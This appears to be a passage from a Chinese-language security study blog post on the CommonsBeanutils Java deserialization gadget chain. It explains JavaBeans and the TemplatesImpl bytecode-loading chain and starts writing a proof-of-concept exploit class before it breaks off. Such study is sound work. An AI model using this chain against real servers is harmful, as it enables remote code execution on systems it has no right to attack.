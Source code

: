 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      CommonsBeanutils反序列化学习               # 标题 
subtitle:    #副标题
date:       2022-03-08              # 时间
author:     Von                      # 作者
header-img: img/post-bg-cook.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Java
    - Web

---
```


# CommonsBeanutils是什么

Apache Commons Beanutils和之前我们学习的Commons Collections一样，是Apache Commons工具集下的另一个项目，它提供了对JavaBean的一些操作方法。

至于什么是JavaBean，其实指的是一种写法并且之前我们之前已经广泛接触到了：

```java
public class Student {
    private String name;
    private int id;

    public String getName() { return this.name; }
    public void setName(String name) { this.name = name; }

    public int getId() { return this.id; }
    public void setId(int id) { this.id = id; }
}
```

它包含若干个私有属性，这些属性通过读取和设置的两个方法来进行访问与修改（这两个方法称为getter和setter）。其中，getter的方法名以get开头，setter的方法名以set开头，全名符合骆驼式命名法（通常来说指属性的第一个字母要大写，如这里面的getName和setName）。

# getter的妙用

其实CB的反序列化链条和之前我们分析的CC链条有很多相似之处，首先他们都利用了

```java
TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
```

这条动态加载字节码的利用链，回顾下之前的相关POC：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
```
